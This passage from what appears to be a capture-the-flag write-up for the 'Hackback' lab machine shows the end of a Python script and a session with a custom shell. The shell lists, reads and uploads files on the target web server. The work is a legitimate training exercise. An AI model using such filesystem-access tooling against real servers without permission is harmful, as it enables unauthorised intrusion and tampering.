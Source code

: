     81     term.cmdloop()
     82 except KeyboardInterrupt:
     83     pass
    

#### Examples

With this shell, I can list files, dirwalk, and write:

    
    
    root@kali# ./hackback_filesystem.py 
    hackback> help
    
    Documented commands (type help <topic>):
    ========================================
    dir  help  save  type  upload
    
    hackback> help save
    Save the contents of a file to a file
            Spaces in file path allowed
            save [relative path on hackback] [path to save to]
    hackback> dir
    Array
    (
        [0] => .
        [1] => ..
        [2] => index.html
        [3] => webadmin.php
    )
    1
    hackback> type index.html
    <!DOCTYPE html>
    <html>
      <head>
        <meta http-equiv="refresh" content="0; URL='/'" />
      </head>
      <body>
      </body>
    </html>
    
    hackback> upload site site.txt
    hackback> dir
    Array
    (
        [0] => .
        [1] => ..
        [2] => index.html
        [3] => site.txt
        [4] => webadmin.php
    )
    1
    hackback> type site.txt
    twitter
    paypal
    facebook
    hackthebox
    